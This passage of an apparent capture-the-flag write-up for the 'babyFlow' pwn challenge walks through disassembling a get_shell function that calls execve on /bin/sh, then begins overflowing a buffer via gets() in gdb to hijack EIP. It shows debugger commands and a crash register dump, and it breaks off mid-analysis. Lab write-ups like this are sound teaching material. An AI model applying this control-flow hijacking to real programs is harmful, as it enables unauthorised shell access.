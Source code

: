 This function is copying `strcpy()` a string.

**We can also see there is a function called `get_shell()`:**
```shell
gef➤  disassemble get_shell 
Dump of assembler code for function get_shell:
   0x080491fc <+0>:	push   ebp
   0x080491fd <+1>:	mov    ebp,esp
   0x080491ff <+3>:	push   ebx
   0x08049200 <+4>:	sub    esp,0x4
   0x08049203 <+7>:	call   0x80492b2 <__x86.get_pc_thunk.ax>
   0x08049208 <+12>:	add    eax,0x2dec
   0x0804920d <+17>:	sub    esp,0x4
   0x08049210 <+20>:	push   0x0
   0x08049212 <+22>:	push   0x0
   0x08049214 <+24>:	lea    edx,[eax-0x1fec]
   0x0804921a <+30>:	push   edx
   0x0804921b <+31>:	mov    ebx,eax
   0x0804921d <+33>:	call   0x8049080 <execve@plt>
   0x08049222 <+38>:	add    esp,0x10
   0x08049225 <+41>:	nop
   0x08049226 <+42>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08049229 <+45>:	leave  
   0x0804922a <+46>:	ret
```

**This function will execute `/bin/sh`.**

## Exploitation

Armed with above information, **we can try to overflow the EIP register, so that we can execute `/bin/sh`!**

**In `gdb`, we can set a breakpoint. Let's set it in `*main+54`, which is the `gets()` function is being called:**
```shell
gef➤  break *main+54
Breakpoint 1 at 0x804928c
```

**Then, we can run the executable:**
```shell
┌[siunam♥earth]-(~/ctf/Incognito-4.0/pwn/babyFlow)-[2023.02.18|15:09:26(HKT)]
└> python3 -c "print('A'*20)"
AAAAAAAAAAAAAAAAAAAA
```

```shell
gef➤  r
[...]
can you pass me?
[...]
gef➤  n
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0xffffcf3e in ?? ()
[...]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x804926d  →  <main+23> add ebx, 0x2d87
$ecx   : 0xf7ffda40  →  0x00000000
$edx   : 0xffffcdf4  →  "AAAA"
$esp   : 0xf7ffda40  →  0x00000000
```